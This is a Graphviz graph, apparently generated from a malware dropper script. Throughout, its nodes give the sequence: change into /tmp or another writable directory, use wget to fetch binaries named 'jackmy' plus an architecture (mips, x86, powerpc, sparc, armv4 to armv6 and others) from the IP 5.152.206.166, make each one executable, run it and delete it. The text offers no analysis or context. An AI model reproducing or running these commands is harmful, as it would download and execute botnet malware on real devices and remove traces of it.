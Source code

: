 digraph {
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 10 [label="||,"];
10 [label="wget http://5.152.206.166/jackmymips "];
10 -> 12 [label=";,"];
12 [label="chmod +x jackmymips "];
12 -> 14 [label=";,"];
14 [label="./jackmymips "];
14 -> 16 [label=";,"];
16 [label="rm -rf jackmymips "];
16 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 28 [label="||,"];
28 [label="wget http://5.152.206.166/jackmymips64 "];
28 -> 30 [label=";,"];
30 [label="chmod +x jackmymips64 "];
30 -> 32 [label=";,"];
32 [label="./jackmymips64 "];
32 -> 34 [label=";,"];
34 [label="rm -rf jackmymips64 "];
34 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 46 [label="||,"];
46 [label="wget http://5.152.206.166/jackmymipsel "];
46 -> 48 [label=";,"];
48 [label="chmod +x jackmymipsel "];
48 -> 50 [label=";,"];
50 [label="./jackmymipsel "];
50 -> 52 [label=";,"];
52 [label="rm -rf jackmymipsel "];
52 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 64 [label="||,"];
64 [label="wget http://5.152.206.166/jackmysh2eb "];
64 -> 66 [label=";,"];
66 [label="chmod +x jackmysh2eb "];
66 -> 68 [label=";,"];
68 [label="./jackmysh2eb "];
68 -> 70 [label=";,"];
70 [label="rm -rf jackmysh2eb "];
70 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 82 [label="||,"];
82 [label="wget http://5.152.206.166/jackmysh2elf "];
82 -> 84 [label=";,"];
84 [label="chmod +x jackmysh2elf "];
84 -> 86 [label=";,"];
86 [label="./jackmysh2elf "];
86 -> 88 [label=";,"];
88 [label="rm -rf jackmysh2elf "];
88 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 100 [label="||,"];
100 [label="wget http://5.152.206.166/jackmysh4 "];
100 -> 102 [label=";,"];
102 [label="chmod +x jackmysh4 "];
102 -> 104 [label=";,"];
104 [label="./jackmysh4 "];
104 -> 106 [label=";,"];
106 [label="rm -rf jackmysh4 "];
106 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 118 [label="||,"];
118 [label="wget http://5.152.206.166/jackmyx86 "];
118 -> 120 [label=";,"];
120 [label="chmod +x jackmyx86 "];
120 -> 122 [label=";,"];
122 [label="./jackmyx86 "];
122 -> 124 [label=";,"];
124 [label="rm -rf jackmyx86 "];
124 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 136 [label="||,"];
136 [label="wget http://5.152.206.166/jackmyi486 "];
136 -> 138 [label=";,"];
138 [label="chmod +x jackmyi486 "];
138 -> 140 [label=";,"];
140 [label="./jackmyi486 "];
140 -> 142 [label=";,"];
142 [label="rm -rf jackmyi486 "];
142 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 154 [label="||,"];
154 [label="wget http://5.152.206.166/jackmyi586 "];
154 -> 156 [label=";,"];
156 [label="chmod +x jackmyi586 "];
156 -> 158 [label=";,"];
158 [label="./jackmyi586 "];
158 -> 160 [label=";,"];
160 [label="rm -rf jackmyi586 "];
160 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 172 [label="||,"];
172 [label="wget http://5.152.206.166/jackmyi686 "];
172 -> 174 [label=";,"];
174 [label="chmod +x jackmyi686 "];
174 -> 176 [label=";,"];
176 [label="./jackmyi686 "];
176 -> 178 [label=";,"];
178 [label="rm -rf jackmyi686 "];
178 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 190 [label="||,"];
190 [label="wget http://5.152.206.166/jackmypowerpc "];
190 -> 192 [label=";,"];
192 [label="chmod +x jackmypowerpc "];
192 -> 194 [label=";,"];
194 [label="./jackmypowerpc "];
194 -> 196 [label=";,"];
196 [label="rm -rf jackmypowerpc "];
196 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 208 [label="||,"];
208 [label="wget http://5.152.206.166/jackmypowerpc440fp "];
208 -> 210 [label=";,"];
210 [label="chmod +x jackmypowerpc440fp "];
210 -> 212 [label=";,"];
212 [label="./jackmypowerpc440fp "];
212 -> 214 [label=";,"];
214 [label="rm -rf jackmypowerpc440fp "];
214 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 226 [label="||,"];
226 [label="wget http://5.152.206.166/jackmym86k "];
226 -> 228 [label=";,"];
228 [label="chmod +x jackmym86k "];
228 -> 230 [label=";,"];
230 [label="./jackmym86k "];
230 -> 232 [label=";,"];
232 [label="rm -rf jackmym86k "];
232 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 244 [label="||,"];
244 [label="wget http://5.152.206.166/jackmysparc "];
244 -> 246 [label=";,"];
246 [label="chmod +x jackmysparc "];
246 -> 248 [label=";,"];
248 [label="./jackmysparc "];
248 -> 250 [label=";,"];
250 [label="rm -rf jackmysparc "];
250 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 262 [label="||,"];
262 [label="wget http://5.152.206.166/jackmyarmv4 "];
262 -> 264 [label=";,"];
264 [label="chmod +x jackmyarmv4 "];
264 -> 266 [label=";,"];
266 [label="./jackmyarmv4 "];
266 -> 268 [label=";,"];
268 [label="rm -rf jackmyarmv4 "];
268 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 280 [label="||,"];
280 [label="wget http://5.152.206.166/jackmyarmv4tl "];
280 -> 282 [label=";,"];
282 [label="chmod +x jackmyarmv4tl "];
282 -> 284 [label=";,"];
284 [label="./jackmyarmv4tl "];
284 -> 286 [label=";,"];
286 [label="rm -rf jackmyarmv4tl "];
286 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 298 [label="||,"];
298 [label="wget http://5.152.206.166/jackmyarmv5 "];
298 -> 300 [label=";,"];
300 [label="chmod +x jackmyarmv5 "];
300 -> 302 [label=";,"];
302 [label="./jackmyarmv5 "];
302 -> 304 [label=";,"];
304 [label="rm -rf jackmyarmv5 "];
304 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 316 [label="||,"];
316 [label="wget http://5.152.206.166/jackmyarmv6 "];
316 -> 318 [label=";,"];
318 [label="chmod +x jackmyarmv6 "];
318 -> 320 [label=";,"];
320 [label="./jackmyarmv6 "];
320 -> 321 [label=";,"];
}
